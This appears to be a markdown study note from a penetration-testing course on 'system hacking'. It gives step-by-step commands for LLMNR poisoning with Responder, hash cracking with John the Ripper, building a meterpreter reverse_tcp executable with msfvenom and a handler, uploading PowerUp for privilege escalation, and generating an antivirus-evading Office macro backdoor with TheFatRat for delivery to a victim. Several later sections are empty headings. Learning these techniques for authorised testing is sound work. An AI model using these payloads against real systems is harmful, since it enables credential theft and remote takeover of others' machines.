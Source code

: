# System Hacking

Four steps:
  - Gaining Access
  - Escalating Privileges
  - Maintaining Access
  - Clearing Logs

Fuzz
  - https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/

Buffer overflow
  - https://datacellsolutions.com/2020/09/23/exploiting-a-simple-stack-based-buffer-overflow-vulnerability/
  - https://guif.re/bo#Finding%20a%20JMP%20ESP

## Gain Access

### Perform Active Online Attack to Crack the System’s Password using Responder

**LLMNR** (Link Local Multicast Name Resolution)
- NetBIOS and LLMNR are protocols used to resolve host names on local networks.
- LLMNR is designed for consumer-grade networks in which a domain name system (DNS) server might not exist.

**NBT-NS** 
- NetBIOS Name Service

**Responder.py**：
1. an LLMNR, NBT-NS, and MDNS poisoner.
2. ``` cd Responder ```
3. ``` sudo ./Responder.py -I eth0 ``` Responder starts listening to the network interface for events.
4. Target windows try to open file in the LAN. cmd open "\\CET-TOOLS123"
5. Responder collects the hashes of the logged-in user of the target machine.
6. Logs at "/Responder/logs"

**John the Ripper**:
1. Crack hashes.
2. ``` sudo snap install john-the-ripper ``` Snap is a software packaging and deployment system.
3. ``` sudo john /home/ubuntu/Responder/logs/[Log File Name.txt] ```

### Audit System Passwords
  
 L0phtCrack 

### Find Vulnerabilities on Exploit Sites

https://www.exploit-db.com/
1. SEARCH EDB.
2. Exploit Database Advanced Search.
3. Download the exploit code.

Other tools:
- VulDB (https://vuldb.com).
- MITRE CVE (https://cve.mitre.org).
- Vulners (https://vulners.com).
- CIRCL CVE Search (https://cve.circl.lu).

### Exploit Client-Side Vulnerabilities and Establish a VNC Session
1. VNC (Virtual Network Computing). remotely control another computer.
2. Msfvenom
- ``` msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP of Host Machine] LPORT=444 -o /root/Desktop/Test.exe ```
3. Test.exe is a malicious file for Windows to execute.
4. 
``` 
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST [ip]
msf6 > exploit
```

5. Windows run Test.exe
6. Get connection.
7. ``` meterpreter > upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1 ```
- PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
8. ``` meterpreter > shell ```
9. In windows shell: ``` powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks" ```
10. Find a vulnerability in VNC
11. exploit VNC vulnerability

### Gain Access to a Remote System using Armitage

Using this tool, you can create sessions, share hosts, capture data, downloaded files, communicate through a shared event log, and run bots to automate pen testing tasks.

### Hack a Windows Machine with a Malicious Office Document using TheFatRat
- compiles malware with a popular payload that can then be executed on Windows, Android, and Mac OSes. 
- an easy way to create backdoors and payloads that can bypass most anti-viruses.

1. ``` #fatrat ```
2. 06 Create Fud Backdoor 1000% with PwnWinds
3. 03 Create exe file with apache + Powershell
4. 07 Create Backdoor For Office with Microsploit
5. |2| The Microsoft Office Macro on Windows
6. Use the payload just created, at /root/Fatrat_Generated/payload.exe
7. Try to deliver the file to the Windows victim.
8. msfconsole. multi/handler -> reverse_tcp

### Perform Buffer Overflow Attack to Gain Access to a Remote System
Steps:
1. Fuzzing the application to determine the crashing of the application
2. Finding the exact location of the crash (called the Offset)
3. Confirming the offset, and control over the flow of execution by Overwriting the Instruction Pointer (EIP)
4. Checking for bad characters
5. Finding the application library with no memory protections
6. And finally, gaining access to the target

[buffer over flow](bof.md)

## Privilege Escalation

## Maintain Access & Hide

## Clear Log
